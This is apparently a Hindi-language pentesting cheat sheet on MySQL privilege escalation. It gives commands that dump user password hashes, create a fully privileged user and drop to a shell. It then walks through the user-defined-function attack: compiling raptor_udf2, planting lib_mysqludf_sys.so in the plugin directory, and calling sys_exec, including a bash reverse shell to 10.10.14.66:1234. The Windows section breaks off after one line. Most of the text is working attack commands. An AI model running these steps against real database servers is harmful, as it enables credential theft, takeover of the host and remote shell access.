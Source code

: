 ### विशेषाधिकार वृद्धि
```bash
# Get current user (an all users) privileges and hashes
use mysql;
select user();
select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user;

# Get users, permissions & creds
SELECT * FROM mysql.user;
mysql -u root --password=<PASSWORD> -e "SELECT * FROM mysql.user;"

# Create user and give privileges
create user test identified by 'test';
grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;

# Get a shell (with your permissions, usefull for sudo/suid privesc)
\! sh
```
### Privilege Escalation via library

यदि **mysql सर्वर root के रूप में चल रहा है** (या किसी अन्य अधिक विशेषाधिकार प्राप्त उपयोगकर्ता के रूप में) तो आप इसे कमांड निष्पादित करने के लिए बना सकते हैं। इसके लिए, आपको **उपयोगकर्ता परिभाषित कार्यों** का उपयोग करने की आवश्यकता है। और एक उपयोगकर्ता परिभाषित बनाने के लिए, आपको उस OS के लिए एक **लाइब्रेरी** की आवश्यकता होगी जो mysql चला रहा है।

उपयोग करने के लिए दुर्भावनापूर्ण लाइब्रेरी sqlmap के अंदर और metasploit के अंदर **`locate "*lib_mysqludf_sys*"`** करके पाई जा सकती है। **`.so`** फ़ाइलें **linux** लाइब्रेरी हैं और **`.dll`** **Windows** वाली हैं, वह चुनें जो आपको चाहिए।

यदि आपके पास **वे लाइब्रेरी नहीं हैं**, तो आप या तो **उनकी तलाश कर सकते हैं**, या इस [**linux C कोड**](https://www.exploit-db.com/exploits/1518) को डाउनलोड कर सकते हैं और **linux कमजोर मशीन के अंदर इसे संकलित कर सकते हैं**:
```bash
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
अब जब आपके पास लाइब्रेरी है, तो Mysql में एक विशेषाधिकार प्राप्त उपयोगकर्ता (root?) के रूप में लॉगिन करें और अगले चरणों का पालन करें:

#### Linux
```sql
# Use a database
use mysql;
# Create a table to load the library and move it to the plugins dir
create table npn(line blob);
# Load the binary library inside the table
## You might need to change the path and file name
insert into npn values(load_file('/tmp/lib_mysqludf_sys.so'));
# Get the plugin_dir path
show variables like '%plugin%';
# Supposing the plugin dir was /usr/lib/x86_64-linux-gnu/mariadb19/plugin/
# dump in there the library
select * from npn into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/lib_mysqludf_sys.so';
# Create a function to execute commands
create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
# Execute commands
select sys_exec('id > /tmp/out.txt; chmod 777 /tmp/out.txt');
select sys_exec('bash -c "bash -i >& /dev/tcp/10.10.14.66/1234 0>&1"');
```
#### Windows
```sql
# CHech the linux comments for more indications
USE mysql;
```